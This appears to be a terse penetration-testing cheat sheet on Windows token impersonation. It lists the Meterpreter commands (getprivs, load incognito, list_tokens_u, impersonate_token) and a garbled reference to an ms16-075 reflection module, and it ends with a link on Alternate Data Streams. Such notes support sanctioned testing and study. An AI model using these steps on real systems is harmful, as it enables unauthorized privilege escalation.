 # Token Impersonation

Check if we have priv for token impersonation(Privilege to impersonate tokens)

```
whoami /priv
```

for meterpreter&#x20;

```
getprivs
```

background the current session

then search and use the ms016\_75 reflection

then set the needed options

After Inside the meterpreter

```
load incognito
```

```
list_tokens_u
```

Use the Impersonation token

```
impersonate_token "<TOKEN NAME>"
```

Done

Alternate Data Streams

{% embed url="https://www.malwarebytes.com/blog/news/2015/07/introduction-to-alternate-data-streams" %}
